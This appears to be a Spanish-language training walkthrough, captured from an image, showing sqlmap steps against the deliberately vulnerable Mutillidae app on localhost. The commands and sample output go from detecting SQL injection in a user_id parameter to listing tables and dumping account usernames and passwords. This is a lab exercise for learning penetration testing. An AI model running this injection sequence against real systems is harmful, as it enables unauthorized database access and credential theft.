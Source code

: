 ✅ Resultado típico:

```
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] parameter 'user_id' is vulnerable
[INFO] available databases:
[*] information_schema
[*] mutillidae
```

---

✅ Después:

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1" -D mutillidae --tables --batch
```

✅ Resultado:

```
[*] accounts
[*] blogs
[*] credit_cards
```

---

✅ Luego:

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1" -D mutillidae -T accounts --columns --batch
```

✅ Resultado:

```
[*] id
[*] username
[*] password
```

---

✅ Finalmente:

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1" -D mutillidae -T accounts -C username,password --dump --batch
```

✅ Resultado:

```
+----------+----------+
| username | password |
+----------+----------+
| admin    | admin123 |
```

---